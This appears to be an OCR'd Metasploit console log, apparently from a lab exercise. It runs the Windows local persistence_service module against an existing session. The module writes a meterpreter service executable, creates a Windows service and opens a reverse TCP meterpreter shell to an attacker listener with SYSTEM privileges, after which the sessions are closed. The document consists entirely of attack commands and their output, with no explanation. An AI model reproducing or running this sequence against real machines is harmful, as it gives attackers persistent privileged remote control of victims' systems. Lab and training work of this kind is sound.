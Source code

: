```
msf6 exploit(windows/local/persistence_service) > set SESSION 1
SESSION => 1
msf6 exploit(windows/local/persistence_service) > exploit

[*] Started reverse TCP handler on 10.10.16.2:4444 
[-] Only support for windows meterpreter/shell reverse staged payload
[*] Exploit completed, but no session was created.
msf6 exploit(windows/local/persistence_service) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf6 exploit(windows/local/persistence_service) > exploit

[*] Started reverse TCP handler on 10.10.16.2:4444 
[*] Running module against WIN-OMCNBKR66MN
[+] Meterpreter service exe written to C:\Users\ADMINI~1\AppData\Local\Temp\1\MjhZmS.exe
[*] Creating service rysxbxZh
[*] Cleanup Meterpreter RC File: /root/.msf4/logs/persistence/WIN-OMCNBKR66MN_20230227.5308/WIN-OMCNBKR66MN_20230227.5308.rc
[*] Exploit completed, but no session was created.
msf6 exploit(windows/local/persistence_service) > exploit

[*] Started reverse TCP handler on 10.10.16.2:4444 
[*] Running module against WIN-OMCNBKR66MN
[*] Sending stage (175174 bytes) to 10.0.30.12
[+] Meterpreter service exe written to C:\Users\ADMINI~1\AppData\Local\Temp\1\prkPSbX.exe
[*] Creating service KndMoIec
[*] Cleanup Meterpreter RC File: /root/.msf4/logs/persistence/WIN-OMCNBKR66MN_20230227.5450/WIN-OMCNBKR66MN_20230227.5450.rc
[*] Meterpreter session 2 opened (10.10.16.2:4444 -> 10.0.30.12:49349) at 2023-02-27 19:54:50 +0530

meterpreter > 

```

```
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > background
[*] Backgrounding session 2...
msf6 exploit(windows/local/persistence_service) > sessions

Active sessions
===============

  Id  Name  Type                     Information                                      Connection
  --  ----  ----                     -----------                                      ----------
  1         meterpreter x64/windows  WIN-OMCNBKR66MN\Administrator @ WIN-OMCNBKR66MN  10.10.16.2:4444 -> 10.0.30.12:49239 (10.0.30.12)
  2         meterpreter x86/windows  NT AUTHORITY\SYSTEM @ WIN-OMCNBKR66MN            10.10.16.2:4444 -> 10.0.30.12:49349 (10.0.30.12)

msf6 exploit(windows/local/persistence_service) > sessions -K
[*] Killing all sessions...
[*] 10.0.30.12 - Meterpreter session 1 closed.
[*] 10.0.30.12 - Meterpreter session 2 closed.
msf6 exploit(windows/local/persistence_service) > sessions

Active sessions
===============

No active sessions.

```
